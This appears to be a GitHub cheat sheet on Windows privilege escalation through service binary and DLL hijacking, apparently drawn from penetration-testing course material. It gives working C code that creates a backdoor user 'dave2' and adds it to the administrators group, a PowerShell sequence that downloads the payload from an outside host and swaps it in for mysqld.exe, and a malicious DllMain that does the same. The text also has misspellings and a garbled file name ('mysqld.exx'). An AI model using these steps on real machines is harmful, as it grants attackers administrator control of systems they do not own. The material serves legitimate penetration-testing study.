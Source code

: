 # Pervlige Escalation In short


## Add user to the system via Leavrginy mysql service | Service Binary Hijacking. 
### Breif
Each Windows service has an associated binary file. These binary files are executed when the service is started or transitioned into a running state.

For this section, let's consider a scenario in which a software developer creates a program and installs an application as a Windows service. During the installation, the developer does not secure the permissions of the program, allowing full Read and Write access to all members of the Users group. As a result, a lower-privileged user could replace the program with a malicious one. 

To execute the replaced binary, the user can restart the service or, in case the service is configured to start automatically, reboot the machine. Once the service is restarted, the malicious binary will be executed with the privileges of the service, such as LocalSystem.

We begin by connecting to The Victim as user over RDP. To use powershell commands, Get-Ciminstance, Get-Services.. etc. 

To get a list of all installed Windows services, we can choose various methods such as the GUI snap-in services.msc, the Get-Service Cmdlet, or the Get-CimInstance Cmdlet (superseding Get-WmiObject).
### Indicator:
![image](https://github.com/MalekAlthubiany/Scripts_Windows/assets/127455300/6ce3ca29-2b07-48a9-a59e-e4df5648a6c5)
```
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");
  
  return 0;
}
```
## Simply replace the service
```
PS C:\Users\dave> iwr -uri http://192.168.119.3/adduser.exe -Outfile adduser.exe  

PS C:\Users\dave> move C:\xampp\mysql\bin\mysqld.exe mysqld.exe

PS C:\Users\dave> move .\adduser.exe C:\xampp\mysql\bin\mysqld.exx
```

## Add user to the system via Leavrging service (Misconifugation) | Service DLL Hijacking. 
### Breif
Replacing the binary of a service is a very effective way to attempt privilege escalation on Windows systems. However, because our user doesn't often have permissions to replace these binaries, we'll need to adapt with a more advanced way of abusing Windows services.

Dynamic Link Libraries (DLL)1 provide functionality to programs or the Windows operating system. DLLs contain code or resources, such as icon files, for other executable files or objects to use. These libraries provide a way for developers to use and integrate already existing functionality without reinventing the wheel. Windows uses DLLs to store functionality needed by several components. Otherwise, each component would need the functionality in their own source code resulting in a huge resource waste. On Unix systems, these files are called Shared Objects.2

There are several methods we can use to exploit how DLLs work on Windows and they can often be an effective way of elevating our privileges. One method is similar to the privilege escalation vector performed in the previous section. Instead of overwriting the binary, we merely overwrite a DLL the service binary uses. However, the service may not work as expected because the actual DLL functionality is missing. In most cases, this would still lead us to code execution of the DLL's code and then, for example, to the creation of a new local administrative user.

Another method is to hijack the DLL search order.3 The search order is defined by Microsoft and determines what to inspect first when searching for DLLs. By default, all current Windows versions have safe DLL search mode enabled.

This setting was implemented by Microsoft due to the high number of DLL hijacking vectors and ensures that DLLs are more difficult to hijack. The following listing shows the standard search order taken from the Microsoft Documentation:3

### Indicator:
![image](https://github.com/MalekAlthubiany/Scripts_Windows/assets/127455300/13f9db2c-e01e-442e-be3c-aa91e5472a9f)

```
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user dave2 password123! /add");
  	    i = system ("net localgroup administrators dave2 /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```

